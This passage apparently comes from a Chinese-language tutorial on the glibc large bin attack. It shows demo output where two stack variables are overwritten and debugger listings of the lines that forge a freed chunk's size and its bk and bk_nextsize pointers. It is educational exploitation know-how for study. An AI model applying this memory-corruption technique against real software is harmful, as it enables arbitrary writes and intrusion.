 ```
Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk at the head of the large bin freelist. To overwrite the stack variables, we set "bk" to 16 bytes before stack_var1 and "bk_nextsize" to 32 bytes before stack_var2

Let's malloc again, so the freed third large chunk being inserted into the large bin freelist. During this time, targets should have already been rewritten:
stack_var1 (0x7ffe64e357c0): 0x1d997a0
stack_var2 (0x7ffe64e357c8): 0x1d997a0

```

### <a class="reference-link" name="%E5%85%B3%E9%94%AE%E4%BB%A3%E7%A0%81%E8%B0%83%E8%AF%95"></a>关键代码调试

这里我也下了几个断点

```
41     unsigned long stack_var1 = 0;
   42     unsigned long stack_var2 = 0;
   43
 ► 44     fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:n");

   67     malloc(0x20);
   68
 ► 69     free(p1);

   69     free(p1);
 ► 70     free(p2);

   70     free(p2);
 ► 71     fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
   72            " [ %p &lt;--&gt; %p ]nn", (void *)(p2 - 2), (void *)(p2[0]));

   74     malloc(0x90);
 ► 75     fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"

   80     free(p3);
 ► 81     fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
   82            " [ %p &lt;--&gt; %p ]nn", (void *)(p3 - 2), (void *)(p3[0]));


   92     p2[-1] = 0x3f1;
   93     p2[0] = 0;
   94     p2[2] = 0;
   95     p2[1] = (unsigned long)(&amp;stack_var1 - 2);
   96     p2[3] = (unsigned long)(&amp;stack_var2 - 4);
   97
   98     //------------------------------------
   99
 ► 100     malloc(0x90);

   100     malloc(0x90);
   101
 ► 102     fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
```
